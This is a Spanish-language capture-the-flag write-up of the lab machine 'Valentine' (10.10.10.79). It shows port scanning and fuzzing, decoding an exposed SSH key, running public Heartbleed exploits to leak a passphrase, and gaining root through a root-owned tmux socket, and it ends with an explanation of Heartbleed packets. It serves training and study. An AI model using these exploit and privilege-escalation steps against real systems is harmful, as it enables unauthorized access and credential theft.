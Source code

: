 10.10.10.79
--------------

1. Escaneo de puertos:
```console
└─$ nmap -sCV -T5 10.10.10.79 -Pn -v
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
22/tcp    open     ssh            OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open     http           Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open     ssl/http       Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_http-server-header: Apache/2.2.22 (Ubuntu)
└─$ whatweb http://10.10.10.79
http://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
└─$ whatweb https://10.10.10.79
https://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```
La peticion por el puerto 443 da error, pero el escaneo reporta que la web se llama Valentine.htb, asi que se
añade al /etc/hosts la linea ```10.10.10.79	valentine.htb```
La web tiene una foto:

```console
└─$ curl http://valentine.htb/omg.jpg -O 
└─$ exiftool ./omg.jpg
```
Los metadatos no dicen nada interesante.

Disponemos a hacer fuzzing:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ
000000001:   200        1 L      2 W        38 Ch       "index"   # -> Lo mismo que la web en sí.                
000000820:   301        9 L      28 W       308 Ch      "dev"                 
000023098:   200        27 L     54 W       554 Ch      "encode"                                             
000024229:   200        25 L     54 W       552 Ch      "decode"                                             
000029887:   200        619 L    5759 W     145482 Ch   "omg"     # -> la foto
```
Si hago fuzzing por extension php me sale tambien /index /decode y /encode. El fuzzing por subdominios no da 
resultados.

**/dev** nos da directory listing, hay dos archivos notes.txt y hype.key
Hype.key es un archivo en hexadecimal (un monton de bytes)
```console
└─$ cat hype.key | xxd -ps -r
```
Encontramos una llave privada (supongo que para hacer ssh).

/encode y /decode nos codifica texto en base 64, o sea hace el comando ```echo "input" | base64 -w0```, es decir
O sea pasando comandos al sistema. Pero la prueba ```test; whoami``` no funciona.

La id_rsa le damos los permisos 
```console
└─$ chmod 600 ./id_rsa   
└─$ ssh -i id_rsa 10.10.10.79
Enter passphrase for key 'id_rsa': 
```
No tenemos la contraseña pero se pued intentar crackear la llave:

```console
└─$ python3 /usr/share/john/ssh2john.py id_rsa > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
```
Pero no obtenemos contraseña, tiramos de nmap para que nos busque vulnerabilidades.

```console
└─$ nmap -T5 10.10.10.79 -script vuln  
| ssl-heartbleed: VULNERABLE:
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
State: VULNERABLE Risk factor: High
OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
Nos hablan de la vulnerabilidad HEARTBLEED 

```console
└─$ searchsploit -m multiple/remote/32764.py
└─$ python2 32764.py 10.10.10.79 -p443 | tee archivo.txt
```
Este exploit no me ha sacado nada interesante, pero he encontrado otro:
```https://github.com/mpgn/heartbleed-PoC```
```console
└─$ python2 heartbleed-exploit.py 10.10.10.79
└─$ cat out.txt | xxd -r
```
Nada interesante.
A la segunda vez nos leakea esto: ```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=``` Como la cadena son letras, 
numeros y un "=" suponemos que es base64

```console
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=" | base64  -d
heartbleedbelievethehype
```

Parece la contraseña de ssh, el asunto es que ha sido un base64 porque supongo que el creador de la maquina
habra utilizado su porpia herramienta /decode para "cifrar" la contraseña.

Como la llave era hype_key, podemos entrar con ese usuario
```console
└─$ ssh -i id_rsa hype@10.10.10.79;
```
La enumeracion con mi script dice que:
- No hay SUIDS criticos ni capabilities.
- Este archivo .conf tiene permiso de escritura: ```/home/hype/.config/Trolltech.conf```
- Ha hecho varios comandos de TMUX (socketfiles) como ```tmux -S /.devs/dev_sess```
- En la ruta /var/www esta el codigo php de la web (decode, encode y demas)


```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 10 23:23 /.devs/dev_sess
hype@Valentine:~$ export TERM=xterm
hype@Valentine:~$ export SHELL=bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
```

Como el socket_file es de root (archivo que guarda una session en la consola Tmux) se puede reanudar,
teniendo esa consola de root. 


--------------------------------------------

## Heartbleed

"Corazon sangrante" es una vulnerabilidad que afecta a "OpenSSl 1.0.1 a 1.0.1f"
Los Cetificados SSL están creados para encriptar las conexiones del protocolo https (por lo que la data que 
se envia se hace ilegible (encriptada)). 
Paralelamente a esta conexion esta el HEARTBEAT, un reconocimiento que hace el cliente con el servidor para 
decirle que la conexion sigue abierta: le dice una palabra y le pide que se la repita (y como esto no es 
confidencial no se encripta)

han llamado "Latido de corazon" porque son dos golpes (pregunta-respuesta)
Heartbeat normal (latido): 
```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (6letras)".
servidor: "PATATA"
```
El problema con Heartbleed esque le podemos decir que la respuesta sea mas larga que lo esperado.

```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (600letras)".
servidor: "PATATA, pero como me has pedido 600 letras te contare muchas cosas interesantes más"```
```
Aqui se leakea los datos de la conexion https pero sin encriptar (ya que estos se guardan en la memoria y le 
hemos hecho sangrar esta misma con la respuesta MAS LARGA DE LO NORMAL)

Leyendo el exploit, nos dice que una peticion HEARTBEAT es tal que asi:

```
HEADERS:
18 -> Numero que indica que esto es un paquete Heartbeat
03 02 -> version TLS
00 03 -> tamaño (no se de que, supongo que la peticion?)
01 -> peticion de que nos hagan un heartbeat
40 00 -> tamaño de la respuesta que queremos (en decimal, paquetes de 16 384 bytes) 
PAYLOAD: "hello" # -> la palabra que nos tiene que repetir
```



